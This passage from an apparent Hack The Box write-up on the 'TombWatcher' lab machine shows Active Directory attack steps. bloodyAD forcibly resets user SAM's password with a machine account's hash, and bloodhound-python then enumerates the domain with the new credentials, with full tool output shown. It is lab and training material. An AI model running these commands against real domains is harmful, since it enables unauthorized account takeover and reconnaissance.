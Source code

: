 We can directly modify `SAM` 's password, let's use `bloodyAD` again:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u 'ansible_dev$'  -p '{{REDACTED_HASH}}' set password SAM 'Hacker123!'
[+] Password changed successfully!
```

## Bloodhound IV

We can run it again:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ bloodhound-python  -u 'SAM' -p 'Hacker123!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: tombwatcher.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.tombwatcher.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 9 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.tombwatcher.htb
INFO: Done in 00M 11S
INFO: Compressing output into 20250922222751_bloodhound.zip


─$ unzip 20250922222751_bloodhound.zip -d bloodhound4                               
Archive:  20250922222751_bloodhound.zip
 extracting: bloodhound4/20250922222751_containers.json  
 extracting: bloodhound4/20250922222751_ous.json  
 extracting: bloodhound4/20250922222751_gpos.json  
 extracting: bloodhound4/20250922222751_groups.json  
 extracting: bloodhound4/20250922222751_domains.json  
 extracting: bloodhound4/20250922222751_computers.json  
 extracting: bloodhound4/20250922222751_users.json  
```

